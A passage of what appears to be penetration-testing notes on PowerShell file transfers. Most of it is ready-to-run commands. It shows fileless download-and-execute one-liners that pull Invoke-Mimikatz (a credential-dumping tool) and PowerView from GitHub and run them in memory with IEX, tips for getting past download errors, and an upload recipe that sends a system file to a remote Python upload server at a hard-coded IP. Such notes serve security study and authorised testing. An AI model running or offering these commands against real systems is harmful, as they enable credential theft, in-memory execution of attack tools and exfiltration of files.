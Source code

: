  2. **PowerShell DownloadString - Fileless Method**. Fileless attacks work by using some operationg system functions to download the payload and execute it directly. Instead of downloading a PowerShell script to disk, we can run it directly in memory using the Invoke-Expression cmdlet or the alias **IEX**
```powershell
PS C:\carnifex17> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
 ```
 3. **PowerShell Invoke-WebRequest**
```powershell
PS C:\carnifex17> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```
#### Common Errors
- **Internet Explorer Error**
```powershell
PS C:\carnifex17> Invoke-WebRequest https://<ip>/PowerView.ps1 | IEX

Invoke-WebRequest : The response content cannot be parsed because the Internet Explorer engine is not available, or Internet Explorer's first-launch configuration is not complete. Specify the UseBasicParsing parameter and try again.
At line:1 char:1
+ Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/P ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ CategoryInfo : NotImplemented: (:) [Invoke-WebRequest], NotSupportedException
+ FullyQualifiedErrorId : WebCmdletIEDomNotSupportedException,Microsoft.PowerShell.Commands.InvokeWebRequestCommand

PS C:\carnifex17> Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```
- **SSL/TLS Untrusted certificate error**
```powershell
PS C:\carnifex17> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
```

### PowerShell Web Uploads
PowerShell doesn't have a built-in upload fucntions, so we need to use **Invoke-WebRequest**.  or **Invoke-RestMethod.** Also we can use uploadserver module for Python, to install it we should use:
```bash
pip3 install uploadserver
```

- **Turn On Web Server with Upload**
```bash
python3 -m uploadserver
```

1. **PowerShell Script to Upload a File to Python Upload Server**
```powershell
PS C:\carnifex17> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
PS C:\carnifex17> Invoke-FileUpload -Uri http://13.13.13.13:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```
